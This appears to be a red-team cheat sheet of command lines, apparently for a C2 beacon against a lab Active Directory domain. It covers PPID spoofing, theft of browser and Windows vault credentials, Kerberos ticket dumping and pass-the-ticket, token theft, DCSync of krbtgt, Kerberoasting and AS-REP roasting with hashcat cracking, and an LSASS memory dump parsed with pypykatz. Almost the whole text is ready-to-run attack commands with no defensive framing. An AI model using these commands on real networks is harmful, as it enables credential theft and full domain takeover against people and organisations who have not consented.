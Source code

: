 #### OPSEC Safe

PPID Spoof
```powershell
ppid 123
spawnto x64 C:\Windows\System32\svchost.exe
```

Browser credentials
```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpChrome\bin\Release\SharpChrome.exe logins
```

Windows Credential Manager
```powershell
run vaultcmd /listcreds:"Windows Credentials" /all

execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault
```

```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe credentials /rpc
```

 Extracting tickets + renewing them
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x13496b /service:krbtgt /nowrap

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x13491f /service:ldap /nowrap
```

```powershell
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe describe /ticket:

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe renew /ticket:doIFq[...snip...]uQ09N /nowrap
```

```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DUBLIN.CONTOSO.COM /username:nwallace /password:FakePass /ticket:

steal_token [PID]
run klist

ls \\lon-fs-1\c$
dcsync DUBLIN.CONTOSO.COM DUBLIN\krbtgt
```
 
 Kerberoasting
```powershell
ldapsearch "(&(objectClass=user)(servicePrincipalName=*)(!(userAccountControl:1.2.840.113556.1.4.803:=1048576)))" --attributes samAccountName,servicePrincipalName,objectsid,ntsecuritydescriptor
```

```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /spn:MSSQLSvc/dub-sql-2.dublin.contoso.com /simple /nowrap

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:MSSQLSVC /simple /nowrap
```

```powershell
C:\Tools\hashcat.exe -a 0 -m 13100 .\kerb.hash .\example.dict -r .\rules\dive.rule
```

AS-REP Roasting
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /format:hashcat /nowrap
```

---

Nanodump Adpatix C2
```powershell
nanodump -w C:\Windows\System32\dotnet.tmp --valid

pypykatz lsa minidump dotnetdmp.tmp
```
